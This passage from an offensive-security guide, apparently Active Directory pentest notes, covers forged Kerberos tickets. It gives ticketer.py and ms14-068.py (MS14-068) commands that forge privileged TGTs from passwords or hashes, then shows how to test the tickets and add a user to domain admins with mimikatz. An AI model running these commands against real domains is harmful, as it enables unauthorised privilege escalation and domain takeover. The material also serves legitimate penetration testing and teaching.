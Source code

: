 {% code overflow="wrap" %}
```bash
ticketer.py -request -impersonate 'domainadmin' -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' 'baduser'
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
_At the time of writing this recipe, September 25th, 2022, no equivalent exists for Windows systems._
{% endtab %}
{% endtabs %}

### MS14-068 (CVE-2014-6324)

This vulnerability allows attackers to forge a TGT with unlimited power (i.e. with a modified PAC stating the user is a member of privileged groups). This attack is similar to the [golden ticket](forged-tickets.md#golden-ticket), however, it doesn't require the attacker to know the `krbtgt`. This attack is a really powerful privilege escalation technique. However, it will not work on patched domain controllers.

{% tabs %}
{% tab title="UNIX-like" %}
This attack can be operated with [pykek](https://github.com/mubix/pykek)'s [ms14-068](https://github.com/mubix/pykek/blob/master/ms14-068.py) Python script. The script can carry out the attack with a cleartext password or with [pass-the-hash](../ntlm/pth.md).

Referring to [kekeo](https://github.com/gentilkiwi/kekeo/wiki/ms14068)'s wiki might also help untangle some situations but errors like  `KDC_ERR_SUMTYPE_NOSUPP (15)` or `KRB_ERR_GENERIC (60)` when trying to use the generated `.ccache` ticket mean the target is patched.

In order to operate the attack, knowing a domain account’s name, it’s password and it’s SID are needed.&#x20;

A TGT can then be obtained with one of the following commands.

```bash
# with a plaintext password
ms14-068.py -u 'USER'@'DOMAIN_FQDN' -p 'PASSWORD' -s 'USER_SID' -d 'DOMAIN_CONTROLLER'

# with pass-the-hash
ms14-068.py -u 'USER'@'DOMAIN_FQDN' --rc4 'NThash' -s 'USER_SID' -d 'DOMAIN_CONTROLLER'
```

Once the `.ccache` TGT is obtained, if the attack is successful, the ticket will be usable with [pass-the-ticket](ptt.md). An easy way to check if the TGT works is to use it and ask for a service ticket. This can be done with Impacket's [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python).

```bash
getST.py -k -no-pass -spn 'any_valid_spn' $DOMAIN_FQDN/$USER
```

{% hint style="warning" %}
In some scenarios, I personally have had trouble using the `.ccache` ticket on UNIX-like systems. What I did was [convert it](ptt.md#practice) to `.kirbi`, switch to a Windows system, inject the ticket with mimikatz's `kerberos:ptt` command, and then create a new user and add it to the domain admins group.
